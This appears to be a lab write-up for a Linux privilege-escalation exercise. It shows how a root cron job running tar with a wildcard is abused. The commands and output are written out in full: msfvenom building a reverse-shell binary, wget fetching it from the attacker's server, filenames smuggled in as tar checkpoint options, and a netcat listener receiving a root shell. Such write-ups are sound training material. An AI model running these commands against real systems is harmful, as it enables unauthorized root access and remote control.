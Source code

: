 # Task 10 : Cron Jobs - Wildcards 
```console
user@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
Note that the tar command is being run with a wildcard (*) in your home directory. Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature. Next step is create a reverse shell ELF binary using ```msfvenom```
```console
bibo318@parrot:~/LinuxPrivEsc$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ur ip> LPORT=<ur port> -f elf -o shell.elf # crate reverse shell
bibo318@parrot:~/LinuxPrivEsc$ python -m SimpleHTTPServer 8000 # create a httpserver
```
now use wget to get the reverse shell ELF binary
```console
user@debian:~$ wget 10.8.14.151:8000/shell.elf
--2020-05-22 23:08:04--  http://10.8.14.151:8000/shell.elf
Connecting to 10.8.14.151:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: “shell.elf”

100%[====================>] 194         --.-K/s   in 0s      

2020-05-22 23:08:04 (25.2 MB/s) - “shell.elf” saved [194/194]

user@debian:~$ ls
myvpn.ovpn  overwrite.sh  shell.elf  test  tools
user@debian:~$ chmod +x /home/user/shell.elf # make it executable
user@debian:~$ touch /home/user/--checkpoint=1 # create 2 files
user@debian:~$ touch /home/user/--checkpoint-action=exec=shell.elf
```
When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames. now set up netcat and wait for cron job to execute our reverse shell
```console
bibo318@parrot:~/LinuxPrivEsc$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.236.173] 56585
ls
--checkpoint-action=exec=shell.elf
--checkpoint=1
myvpn.ovpn
overwrite.sh
shell.elf
test
tools
whoami
root
```
